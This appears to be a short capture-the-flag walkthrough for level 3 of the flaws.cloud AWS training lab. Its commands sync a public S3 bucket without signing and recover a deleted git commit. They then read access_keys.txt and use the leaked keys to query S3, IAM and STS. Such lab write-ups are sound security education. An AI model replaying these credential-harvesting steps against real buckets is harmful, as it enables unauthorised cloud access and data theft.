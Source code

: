 # Bucket listing any aws authenticated user
```
host level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
host 52.92.249.131
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --region us-west-2 --no-sign-request
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --region us-west-2 --no-sign-request .
git log
git status
git stash
git log
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61\n
ls
cat access_keys.txt
aws --profile=flaws-cloud-3 s3 ls
aws --profile=flaws-cloud-3 iam get-user
aws --profile=flaws-cloud-3 sts get-caller-identity
```
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/ca475f64-5520-4fcd-8df6-21b1a26615f2)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/069d9d56-22ca-40ac-bec6-e86bb2e0f4d9)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/b3039c0e-11c7-4ca7-833f-e55e01181720)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/437f8e36-e5bb-4fac-a68c-8db7642f0f48)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/cf354dd2-dd61-4031-8d97-d303df794dac)






